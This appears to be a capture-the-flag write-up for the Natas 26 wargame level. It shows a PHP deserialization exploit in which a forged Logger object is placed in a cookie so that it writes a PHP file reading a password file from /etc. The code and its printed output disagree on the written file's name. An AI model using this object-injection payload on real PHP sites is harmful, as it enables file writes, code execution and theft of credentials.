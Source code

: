 https://www.php.net/manual/en/language.oop5.serialization.php


```php
class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="heyyyyyy\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile= "/var/www/natas/natas26/img/n0j.php";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbjBqLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjk6ImhleXl5eXl5CiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=
php > exit
@0fb5bda9f64c:/#
echo "Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbjBqLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjk6ImhleXl5eXl5CiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=" | base64 -d
O:6:"Logger":3:{s:15:"LoggerlogFile";s:34:"/var/www/natas/natas26/img/n0j.txt";s:15:"LoggerinitMsg";s:9:"heyyyyyy
";s:15:"LoggerexitMsg";s:63:"<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>
";}
```

```
Obviously the message we’re after is the password to natas27 so we grab that and load it into a variable. We know we can write to the img folder because that’s what the application does with legitimate images. We also know we’ll be able to read it back from there, again because that’s what the application does with legitimate images.
A note on how this works… why would we send a Logger object into a function that’s expecting arrays with coordinates and whatnot, doesn’t sound like that will work. 
Short answer - it doesn’t work! 

But the object is loaded into the $drawing variable so when its life ends the destructor will be called and that’s all we care about.
```

so basiclly, we overwrite the variables set in the logger class at a later stage in the script. We can do this since unserialize only loads the variables from classes into the application scope, not de the defination of the class it self when the object has been serialized.

We can overwrite these values since the cookie is used to send over the serialized data and we have full control over the cookie we send.

When deserializeing the cookie the entire cookie is added to $drawing. This means our initMsg, exitMsg and logFile from our custom logger class are now loaded into the application scope and now have replaced the orginal values when the class was defined.
